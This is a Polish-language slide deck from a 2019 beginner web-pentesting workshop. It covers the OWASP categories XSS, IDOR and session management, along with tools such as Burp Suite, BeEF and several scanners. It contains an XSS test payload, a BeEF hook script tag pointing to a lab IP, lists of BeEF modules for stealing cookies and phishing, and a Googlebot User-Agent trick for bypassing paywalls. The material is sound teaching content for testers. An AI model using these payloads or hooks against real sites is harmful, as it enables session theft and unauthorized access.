

Tech 101: Od testera manualnego do pentestera
Women in Technology Warszawa - 17.09.2019
Informacje organizacyjne
O mnie
Zajmuje się testami bezpieczeństwa aplikacji webowych oraz testami wydajnościowymi. Mam ponad trzy lata doświadczenia w pentestach. Moim głownym zainteresowaniem są testy bezpieczeństwa aplikacji webowych. Na codzień pracuję jako Starszy Specjalista w Pentacomp Systemy Informatyczne, gdzie zajmuje się głównie testami bezpieczeństwa aplikacji webowych oraz testami automatycznymi.
O Pentacomp
Jesteśmy niezależnym producentem rozwiązań informatycznych i dostawcą profesjonalnych usług IT dla klientów z wybranych branż gospodarki i sektora publicznego. Dysponujemy wieloletnim doświadczeniem w realizacji strategicznych projektów dla największych w Polsce organizacji.
Code of Ethics
Prezentowanych na spotkaniu technik nie stosujemy na systemach bez zgody właściciela.
Korzystanie z prezentacji
- Kliknięcie ESC wyświetla widok aktualnego slajdu i pozostałych slajdów.
- Wybranie ikony w lewym dolnym rogu lub wciśnięcie klawisza m powoduje pojawienie się menu nawigacyjnego.
Agenda (I)
- Wprowadzenie i statystyki dotyczące podatności
- Organizacja OWASP – materiały i narzędzia OWASP
- OWASP Top 10
- Podstawowe informacje dotyczące aplikacji webowych
- Skanowanie portów
Agenda (II)
- Przegląd baz danych podatności
- Narzędzia typu lokalnego Proxy
- Podatność XSS i jej wykorzystanie (BeEF i własny skrypt)
- Przerwa obiadowa ok. 13:00
- Ataki CSRF, przygotowanie przykładowej strony HTML wykonującej atak
Agenda (III)
- SQL Injection
- Podatności kategorii Broken Access Control
- Podsłuchanie komunikacji nieszyfrowanej z wykorzystaniem Wireshark
- Ataki Slow HTTP
- Skanery umożliwiające automatyczne testy bezpieczeństwa
- Nagłowki bezpieczeństwa
Wprowadzenie
Jakie są najczęściej występujące podatności aplikacji webowych? O jakich podatnościach ostatnio słyszeliście?
Most Common Website Security VulnerabilitiesStatystyki 2014 - 2018 - raport Imperva
Statystyki podatności w latach 2014 - 2018 według raportu Imperva
Motywacja (I)
- Wykonanie podstawowych testów bezpieczeństwa nie jest trudne.
- Umiejętność wykrywania podstawowych podatności pomoże wykryć je na wczesnym etapie projektu.
- Im wcześniej błąd zostanie wykryty tym łatwiej i taniej jest go naprawić.
Motywacja (II)
- Testy bezpieczeństwa wymagają znajmości metod HTTP m. in. GET/POST oraz świadomości możliwości obejścia walidacji po stronie serwera.
Test penetracyjny
- Kontrolowany atak na system teleinformatyczny.
- Umożliwia praktyczną ocenę stanu bezpieczeństwa.
- Pentester wciela się w rolę potencjalnego włamywacza.
Test penetracyjny - audyt - test bezpieczeństwa
- Pentest nie jest audytem. Audyt sprawdza zgodność z formalną specyfikacją stanu pożądanego (normą, aktem prawnym).
- Test bezpieczeństwa jest pojęciem bardzo szerokim.
- Testy bezpieczeństwa są często elementem testów pozafunkcjonalnych
Ile milionów haseł uzytkowników Facebooka było dostępnych bez szyfrowania?
Hasła *** milionów użytkowników Facebooka były dostępne bez szyfrowania. Przez przypadek…Aplikacja webowa - podstawowe informacje
Model Klient - Serwer
- Klient wysyła żądanie (request) do serwera.
- Żądanie zawiera URL (Uniform Resource Locator).
- Serwer zwraca zasób, jeżeli jest dostępny (response).
- HTTP jest protokołem bezstanowym.
- Istnieją mechanizmy zapewniające emulację stanów - sesje, ciasteczka.
URL

- host - adres serwera, w postaci domenowej lub adresu IP,
- port - numer portu, na którym serwer odbiera połączenia TCP (80, 443, 8080),
- path - ścieżka dostępu do zasobu, jeżeli nieobecna podaje się "/".
Żądanie
- Wybór metody,
- Adres zasobu,
- Wersja protokołu HTTP,
- Dane.
Metoda GET
Polega na umieszczeniu par parametr=wartość w adresie strony, np. index.php?lang=pl&cat=2&sidebar=yes
Metoda POST
Metoda POST powinna być stosowana tam, gdzie dane odwołanie jest formą interakcji z użytkownikiem, niemożliwą do utrwalenia w formie adresu. Powinna być także stosowana tam, gdzie dana operacja może wywołać wiążące dla użytkownika skutki – np. zapisanie na listę dyskusyjną.
Odpowiedź
- Wersja protokołu HTTP,
- Status odpowiedzi - trzycyfrowy kod np. 200 OK, 301 Moved Permanently, 404 Not found,
- Dane.
Jakie zagrożenia wynikaja z przekazywania loginów/haseł/danych osobowych w URL?
Zakres podstawowych testów bezpieczeństwa dla każdego testera
Testy walidacji po stronie serwera poprzez próbę ominięcia walidacji zapewnianej przez GUI
Testy dostępu do danych i plików bez zalogowania lub przez użytkowników z innym zakresem uprawnień
Testy poprawnego zarządzania sesją użytkownika
Cross-Site Scripting - XSS
Cross-Site Scripting - XSS (I)
- Atak polegający na osadzeniu w treści atakowanej strony kodu, zazwyczaj JavaScript, który wyświetlany jest użytkownikowi.
- Atakujący może wykonać skrypt po stronie użytkownika aplikacji internetowej porywając między innymi jego sesje lub powodując przekierowanie na inną stronę.
Cross-Site Scripting - XSS (II)
- Reflected XSS (Nonpersistent XSS)
- Persistent XSS (Stored XSS)
- Oparte o DOM (DOM XSS)
Stored XSS

Reflected XSS

XSS Lokator
Testy można wykonać manualnie, przesyłając w każdym możliwym parametrze, którego wartość jest zwracana użytkownikowi tzw. lokator XSS w postaci znaków:
'';!--"<XSS>=&{()}
XSS Standardowy Payload
Testy można wykonać z wykorzystaniem standardowego payloadu powodującego wyświetlenie okna z alertem:
<script>alert(1)</script>
Przykład wykonania XSS

Wykorzystanie podatności Cross-Site Scripting (XSS)
Browser Exploitation Framework - BeEF (I)
Pakiet pozwala na wykorzystanie podatności XSS np. wyświetlenie okna dialogowego, uruchomienie dźwięku, pobranie plików cookie, czy zawartości schowka.Browser Exploitation Framework - BeEF (II)
<script src="http://192.168.1.14:3000/hook.js"></script>
Browser Exploitation Framework - BeEF (III)
Panel logowania: http://192.168.1.14:3000/ui/authentication Użytkownik testowy beef/beefUwaga! Możliwa jest tylko jedna aktywna sesja użytkownika beef. Logujcie się dopiero po zakończeniu prezentacji narzędzia.
Browser Exploitation Framework - BeEF (IV)

Browser Exploitation Framework - BeEF (V)
- Social Engineering
- Fake Notification
- Google Phishing
- Pretty Theft
- Browser
- Webcam HTML5
- Hooked Domain
- Get page HTML
- Get cookie
Lokalne Proxy
Narzędzia typu lokalnego Proxy
- Proxy jest zainstalowane na komputerze testującego.
- Przeglądarka łączy się z Proxy, a następnie Proxy łączy się z żądaną stroną internetową.
- Dzięki takiemu połączeniu możliwe jest przechwytywanie oraz zmiana danych wysyłanych pomiędzy przeglądarką, a serwerem.
Burp Suite (I)

Bardzo popularne narzędzie wykorzystywane podczas testów bezpieczeństwa.
Burp Suite (II)
- Szczegółowa analiza i obróbka zapytań oraz odpowiedzi.
- Możliwość powtórzenia i modyfikowania przesłanych wcześniej żądań.
- Łatwe przenoszenie zapytań pomiędzy różnymi narzędziami.
- Skaner automatyczny (pasywny i aktywny).
Instalacja certyfikatu Burp
Podczas importu certyfikatu należy zaznaczyć opcję Trust this CA to identify web sites
Burp Suite Professional
- Różnice między wersją Community i Professional.
- Wersja Professional jest rozbudowana o skaner automatyczny i dodatki.
Przykład zastosowania - podmiana nagłówka User Agent
- Podmiana nagłówka User Agent na Googlebot/2.1, czyli podszywanie się pod robota Google indeksującego sieć daje możliwość ominięcia ochrony w niektórych serwisach z płatną treścią, weryfikujących dostęp do treści na podstawie nagłowka żądania.
Googlebot
Testy walidacji po stronie serwera poprzez próbę ominięcia walidacji zapewnianej przez GUI
Modyfikacja pól formularza typu readonly lub hidden (I)
Niektóre pola formularzy oznaczone są atrybutami:- readonly – pola tylko do odczytu, modyfikacja w przeglądarce jest wyłączona,
- hidden – pola ukryte, nie są wyświetlane przez przeglądarkę.
Modyfikacja pól formularza typu readonly lub hidden (II)
Należy sprawdzić, czy modyfikacja wartości takiego pola jest możliwa przez:- modyfikację strony HTML w przeglądarce,
- modyfikację przesyłanego żądania z wykorzystaniem narzędzia typu proxy.
Modyfikacja pola typu readonly
Parametr można usunąć bezpośrednio w przeglądarce modyfikując treść strony HTML. Przykład ze strony w3schools.com.Testy dostępu do danych i plików bez zalogowania lub przez użytkowników z innym zakresem uprawnień
Modyfikacja identyfikatora załącznika (I)
- Przykład pochodzi z aplikacji w której każdy z użytkowników do składanego wniosku załączał plik.
- Wgrywanym plikom przydzielany był identyfikator o kolejnej wartości.
Modyfikacja identyfikatora załącznika (II)
- Pobranie załączonego pliku odbywało się za pomocą żądania z parametrem w którym podawany był identyfikator zasobu np. GET //servlet.gupld?show=292258 HTTP/1.1
- Zmiana parametru powodowała możliwość pobrania załącznika innego użytkownika.
Test dostępu do danych i plików bez zalogowania (I)
- Przechwycenie żądania w narzędziu Burp Proxy.
- Przesłanie żądania do zakładki Repeater.
- Usunięcie plików cookie.
- Porównanie odpowiedzi zwróconej po przesłaniu zmodyfikowanego żądania.
Test dostępu do danych i plików bez zalogowania (II)
Test dostępu do danych i plików przez użytkowników z innymi uprawnieniami (I)
- Zalogowanie na dwóch użytkowników o różnym zakresie uprawnień np. zwykły użytkownik i administrator.
- Wyświetlenie funkcji administracyjnych.
- Przechwycenie żądania w narzędziu Burp Proxy.
- Przesłanie żądania do zakładki Repeater.
Test dostępu do danych i plików przez użytkowników z innymi uprawnieniami (II)
- Usunięcie plików cookie administratora i wstawienie plików cookie zwykłego użytkownika.
- Porównanie odpowiedzi zwróconej po przesłaniu zmodyfikowanego żądania.
Dodatek Firefox Cookie Quick Manager
Testy poprawnego zarządzania sesją użytkownika
Zarządzanie sesją użytkownika
- Po zalogowaniu użytkownikowi przydzielany jest identyfikator na podstawie którego serwer identyfikuje użytkownika przy kolejnych żądaniach.
- Błędne zarządzanie sesją lub tworzenie błędnych identyfikatorów może skutkować przejęciem sesji.
Podstawowe testy poprawnego zarządzania sesją użytkownika
- Test unieważniania sesji po wylogowaniu.
- Test wygasania sesji po upłynięciu czasu trwania sesji.
- Sprawdzenie czy identyfikator sesji nie jest przekazywany w adresie URL.
- Sprawdzenie czy identyfikator sesji jest zmieniany po zalogowaniu.
Identyfikator sesji przekazywany w adresie URL (I)
- Przekazywanie identyfikatora sesji w URL stanowi poważne zagrożenie m. in. ze względu na zapisanie identyfikatora sesji w historii przeglądarki, historii serwera proxy lub też możliwość przesłania z linkiem innemu użytkownikowi.
Identyfikator sesji przekazywany w adresie URL (II)
- W niektórych przepadkach linki do zasobów css oraz js uzupełniane są o identyfikator sesji użytkownika, co pozwala na ominięcie ochrony zapewnianej przez dodanie do identyfikatora sesji flagi HttpOnly.
Identyfikator sesji przekazywany w adresie URL (III)
Regeneracja identyfikatora sesji
- Przydzielanie nowego identyfikatora sesji po zalogowaniu do aplikacji chroni przed atakami typu Session Fixation.
- Atak typu Session Fixation polega na nakłonieniu użytkownika do korzystania z identyfikatora sesji nadanego przez atakującego.
Session Fixation
Podsumowanie
Testy do wykonania przez testera manulanego (I)
- Testy ominięcia walidacji po stronie GUI.
- Testy dostępu do danych i plików bez zalogowania lub przez użytkowników z innym zakresem uprawnień.
- Test unieważniania sesji po wylogowaniu.
- Test wygasania sesji po upłynięciu czasu trwania sesji.
Testy do wykonania przez testera manulanego (II)
- Sprawdzenie czy identyfikator sesji nie jest przekazywany w adresie URL.
- Sprawdzenie czy identyfikator sesji jest zmieniany po zalogowaniu.
- Testy podatności XSS.
Ćwiczenia dodatkowe
Aplikacja testowa WebGoat
- Testowa aplikacja instalowana lokalnie.
- Posiada liczne podatności, które w ramach ćwiczeń należy znaleźć i wykorzystać.
- Link do pobrania WebGoat
Skanery automatyczne
Skanery automatyczne
- Arachni
- Nikto
- Burp Suite
- OWASP ZAP
- OpenVas
- Skipfish
Arachni

OpenVas